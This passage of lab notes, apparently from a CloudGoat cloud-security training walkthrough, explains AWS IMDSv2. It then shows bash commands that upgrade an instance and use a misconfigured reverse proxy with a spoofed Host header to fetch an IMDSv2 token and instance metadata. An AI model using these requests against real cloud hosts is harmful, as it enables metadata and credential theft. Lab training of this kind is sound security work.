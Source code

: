 IMDSv2
- a defence in depth
- against open firewalls and SSRF vulnerabilities.
- IMDSv2 needs a session token for making any request to the service.
- This token can only be obtained by making a specific request using the HTTP PUT method.
- [IMDSv2](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)

Although IMDSv2 effectively mitigates most SSRF attacks
- it still cannot mitigate security issues like mis-configured reverse-proxy servers such as the one we exploited.


```bash
# -------- 1. setup
# upgrade the vulnerable EC2 instance from IMDSv1 to IMDSv2.
# need the latest AWS CLI ( >=1.16.287) that supports IMDSv2.
# using cloudgoat profile (Admin user) to update EC2 instance from IMDSv1 to IMDSv2.

pip3 install awscli
pip3 upgrade awscli

aws ec2 modify-instance-metadata-options \
    --instance-id <INSTANCE-ID> \
    --profile cloudgoat \
    --http-endpoint enabled \
    --http-token required


# -------- 2. exploit IMDS v2 using the mis-configured reverse proxy.
# generate the token for accessing metadata endpoint with the below HTTP PUT request

TOKEN=`curl -X PUT 'http://54.196.109.217/latest/api/token' \
        --H 'X-aws-ec2-metadata-token-ttl-seconds: 21600' \
        --H 'Host:169.254.169.254' `

# use the security token obtained as part of the HTTP request header.
curl -s http://$EC2IP/latest/meta-data/local-ipv4 \
    --H 'X-aws-ec2-metadata-token:$TOKEN' \
    --H 'Host:169.254.169.254'
# 10.10.10.238



# -------- 3. destroy the resources created during this lab:
./cloudgoat.py destroy cloud_breach_s3
```



---



### Scenarios 4: iam_privesc_by_attachment (Medium / Moderate)
